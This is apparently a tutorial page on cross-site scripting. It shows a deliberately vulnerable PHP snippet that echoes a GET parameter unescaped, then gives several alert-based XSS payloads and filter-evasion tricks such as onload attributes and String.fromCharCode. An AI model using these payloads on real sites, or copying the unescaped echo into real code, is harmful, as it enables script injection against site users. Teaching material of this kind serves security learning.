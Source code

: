 ### XSS Exploitation

```

Example:
<html>
<head><title>Test XSS </title></head>
	<body>
		<img src="logo.png" alt="<?= $_GET['name'] ?>">
	</body>
</html>

```

> If you want to practice with it, you can just create a PHP file with the above code. Setup a web server with PHP using Wamp For Windows and Lamp For Linux.

```

"><script>alert('XSS Example')</script>
"><body onload="alert('XSS Example')
""><body onload="alert('XSS Example')">
" onload="javascript:alert('XSS Example')
index.php?name=" onload="javascript:alert('XSS Example')

```

- The DOM events are often used in XSS exploitation because they allow us to avoid using suspicious characters like 


``` 

<
> 

```

We do not even need to use any HTML tags (like the SCRIPT or BODY tags) here. Therefore, we are able to bypass basic input validations routines that may rely on this type of silly check.

- If filters and input validation routines are in place, then we wil want to ensure to submit as few suspicious characters as possible.

In this case the **javascript:** in the onload event of our payload can be ommited to become:
```
index.php?name=" onload="alert('XSS Example')
```

Making our script injection elegant and hard to detect, we can avoid using single quotes with the help of the JavaScript function **String.fromCharCode**. This will output a character by its code and the payload would become:
```
" onload="alert(String.fromCharCode(88,83,83))
```

### XSS and Browsers
- XSS is the injection of scripts and HTML in web pages source code.
- They way we do this injection, is sometimes tricky and involves quite a bit of knowledge of the technologies involved.
- Basically, it should be understood that a payload working under Firefox may not work For Internet Explorer or Safari and vice versa.
- Browsers are software that interpret the HTML received by the web server according to their internal rules.
- Just like how you would do your best to code your website to be cross-browser compatible, the same must be said For XSS exploits.
- Even if these filters can block simple common XSS vectors, they cannot find every XSS because, it really depend on the injection point.
